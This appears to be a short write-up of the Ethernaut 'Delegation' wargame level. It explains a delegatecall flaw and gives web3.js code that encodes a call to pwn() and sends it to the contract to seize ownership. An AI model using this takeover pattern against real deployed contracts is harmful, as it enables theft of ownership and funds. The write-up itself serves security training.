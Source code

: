 # Level 6: [Delegation](https://ethernaut.openzeppelin.com/level/0xF781b45d11A37c51aabBa1197B61e6397aDf1f78)

## Level objectives:
1. Claim ownership of contract Delegation.

## Analysis (lol)
- Delegation's fallback function delgatecall's `Delegate` contract.
- `delegatecall` allows us to execute code from contract Delegate, in the storage context of
contract Delegation.
- So we shall send a tx to Delegation's fallback function.
- The payload data will be the name of Delegate's function to execute within Delegation.

## Steps:

```js
const pwnData = web3.eth.abi.encodeFunctionCall({
  name: 'pwn',
  type: 'function',
  inputs: []
}, []);

web3.eth.sendTransaction({
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4", // my addr.
  to: "0x5d4c441B8158A8E3b6f12BeA611731FD4EF46df6", // Delegation contract addr.
  data: pwnData
});
```
